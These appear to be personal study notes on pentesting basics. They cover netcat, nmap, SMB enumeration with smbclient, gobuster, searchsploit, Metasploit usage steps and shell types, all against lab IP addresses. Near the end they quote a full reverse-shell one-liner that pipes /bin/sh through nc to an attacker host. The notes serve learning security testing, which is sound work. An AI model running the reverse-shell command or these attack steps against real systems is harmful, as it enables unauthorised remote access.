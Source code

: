 # Pentesting Basics

## Getting a shell
- **types of shell**
	- Reverse Shell
	- Bind Shell
	- Web Shell
- **Netcat**
	- interacting with TCP/UDP ports.
	- **Banner Grabbing** `nc -nv 10.129.42.253 21` or `nmap -sV --script=banner <target>`

## Service Scanning
### Nmap
- `-sC` for more details `-sV` for version `-p-` to scan all ports 
- to run custom script `nmap --script <script name> -p<port> <host>`.
### Attacking Network Services
- **Banner Grabbing** `nmap -sV --script=banner <target>`  
- **FTP**: Nmap scan anonymous authentication is enabled
#### SMB (Server Message Block)
- a prevalent protocol on Windows machines
- some SMB versions may be vulnerable to RCE exploits such as [EternalBlue](https://www.avast.com/c-eternalblue).
- `nmap --script smb-os-discovery.nse -p445 10.10.10.40`
##### Shares
- SMB allows users and administrators to share folders and make them accessible remotely by other users
- `smbclient -N -L \\\\10.129.42.253` when `-L` fir list and `-N` suppresses the password prompt
	- `smbclient \\\\10.129.42.253\\users` connect as guest
	- `smbclient -U bob \\\\10.129.42.253\\users` connect as user bob

## Web Enumeration
- `whatweb 10.129.117.36` 
### Gobuster (or ffuf)
- for dirs/files
```bash
gobuster dir -u http://10.10.10.121/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
- for subdomains
```bash
# we can use this repo to dowload wordList
git clone https://github.com/danielmiessler/SecLists
# now Gobuster
gobuster dns -do inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.tx
```
### Web Enumeration Tips (info sources)
- **Banner Grabbing / Web Server Headers**
- **Whatweb**: by command `shell-session
 whatweb 10.10.10.121`
 - **Certificates**
 - **robots.txt**: instruct search engine like google
 - **source code**: by `ctrl+u`
 - 
## Public Exploits
### Finding Public Exploits
- using google with `exploit`  word
- **searchsploit (from exploitDb)**, or other databases like: [Exploit DB](https://www.exploit-db.com/), [Rapid7 DB](https://www.rapid7.com/db/),, [Vulnerability Lab](https://www.vulnerability-lab.com/).

### Metasploit Primer (`msfconsole`)
- Metasploit is a powerful pentesting framework with 
	- built-in exploits
	- reconnaissance/verification scripts
	- the Meterpreter shell
	- post-exploit/pivoting utilities.
- `msfconsole` command to run **Metasploit**
	1 - `search exploit SMB` command to for SMB vuln  
	2 - `use exploit/windows/...` use the exploit 
	3 - `show options` to display and config exploit options
	4 - `set RHOSTS 10.10.10.40` to set params (**RHost** for target and **LHost** of our attacker like `eth0`)
	5- `check` to check if our target is vulnerable
	6- `run` or `exploit` to run the exploit in the end	

# Types of Shells
- to remote access: `ssh` for linux and `WinRm` for windows 

Type of Shell | Method of Communication
|--|--|
`Reverse Shell` |Connects back to our system and gives us control through a reverse connection.
`Bind Shell` | Waits for us to connect to it and gives us control once we do.
`Web Shell`  | Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output.
## Reverse Shell
- most used
- **netcat** listener on our machine  `nc -lvnp 1234`
- [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) : reverse shell commands, example :
	```bash
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
	```
- **lose connection:** have to use the initial exploit again
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEwODE3MTU3MzAsLTExNzk3NTEyMTUsLT
E5NjQ5NDM4ODgsMTQ2MjE1MTkzLDY4MTMzMTc0OSw5MjIyNDU1
MDcsMTQxNjU5OTA3MiwtNTcyODQ4MDQxLDE1MzUyMzQ5NjEsND
A4NDI4OTg1LC0xNDc0MjAzNjI5LC0xMDAxMzcwMDQyLC0xNTkz
OTA0MjMyLDY4MjcwMjY1OCwtNTc4MzIxMTkwLDgxMTA2OTAxNS
wtMjA4ODc0NjYxMl19
-->